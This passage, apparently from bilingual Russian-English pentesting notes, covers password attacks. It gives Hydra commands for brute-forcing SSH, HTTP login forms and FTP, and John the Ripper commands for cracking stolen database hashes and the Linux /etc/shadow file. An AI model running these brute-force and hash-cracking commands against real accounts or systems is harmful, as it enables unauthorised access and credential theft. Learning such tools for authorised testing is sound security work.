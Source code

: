 **4. Hash Cracking** — offline
Если украли хеши из БД — крекаем offline (нет rate limiting!).

#### Hydra — online brute-force

**Установка:**
```bash
sudo apt install hydra
```

**Basic syntax:**
```bash
hydra -l username -P passwords.txt protocol://target
```

**Примеры:**
```bash
# SSH
hydra -l admin -P rockyou.txt ssh://192.168.1.10

# HTTP POST form
hydra -l admin -P passwords.txt \
  http-post-form://localhost:8080/login.php:"username=^USER^&password=^PASS^:Invalid"

# FTP
hydra -L users.txt -P passwords.txt ftp://target
```

#### John the Ripper — hash cracking

**Установка:**
```bash
sudo apt install john
```

**Usage:**
```bash
# Crack hash
john --wordlist=rockyou.txt hashes.txt

# Show cracked
john --show hashes.txt

# Hash formats
john --list=formats
```

**Hash format примеры:**
```bash
# MD5
echo -n "password" | md5sum

# SHA256
echo -n "password" | sha256sum

# Shadow file (Linux passwords)
sudo john /etc/shadow
```

